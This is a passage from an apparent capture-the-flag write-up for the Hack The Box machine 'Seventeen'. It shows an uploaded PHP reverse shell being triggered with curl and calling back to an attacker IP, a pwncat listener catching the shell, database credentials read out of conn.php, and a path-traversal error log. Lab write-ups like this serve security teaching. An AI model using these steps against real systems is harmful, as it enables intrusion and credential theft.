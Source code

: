 31234/..
```

Yea, the path traversal worked! Lets trigger the php file.
```
┌──(kali㉿kali)-[~]
└─$ curl http://seventeen.htb:8000/oldmanagement/files/shell1.php
WARNING: Failed to daemonise.  This is quite common and not fatal.
<br />
<b>Warning</b>:  fsockopen(): unable to connect to 10.10.14.2:4444 (Connection refused) in <b>/var/www/html/oldmanagement/files/shell1.php</b> on line <b>100</b><br />
Connection refused (111)
```

### Enumeration

Catch the shell:
```
┌──(kali㉿kali)-[~]
└─$ /home/kali/.local/bin/pwncat-cs -lp 4444
[13:46:50] Welcome to pwncat 🐈!                                                                                                             __main__.py:164
[13:46:52] received connection from 10.10.11.165:51870                                                                                            bind.py:84
[13:46:52] 0.0.0.0:4444: upgrading from /bin/dash to /bin/bash                                                                                manager.py:957
[13:46:53] 10.10.11.165:51870: registered new host w/ db                                                                                      manager.py:957
(local) pwncat$                                                                                                                                             
(remote) www-data@46abbdbcae32:/$ whoami
www-data
```

Before I'll upload linpeas.sh lets first search for some  DB Credentials.

```
(remote) www-data@46abbdbcae32:/var/www/html/oldmanagement/admin$ cat conn.php 
<?php
        $conn = mysqli_connect("127.0.0.1", "mysqluser", "mysqlpassword", "db_sfms");

        if(!$conn){
                die("Error: Failed to connect to database!");
        }

        $default_query = mysqli_query($conn, "SELECT * FROM `user`") or die(mysqli_error());
        $check_default = mysqli_num_rows($default_query);

        if($check_default === 0){
                $enrypted_password = md5('admin');
                mysqli_query($conn, "INSERT INTO `user` VALUES('', 'Administrator', '', 'admin', '$enrypted_password', 'administrator')") or die(mysqli_error());
                return false;
        }
?>
```
|Username|Passsword|
|---|---|
|mysqluser|mysqlpassword|

```
(remote) www-data@46abbdbcae32:/var/www/html/employeemanagementsystem/process$ cat dbh.php 
<?php


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)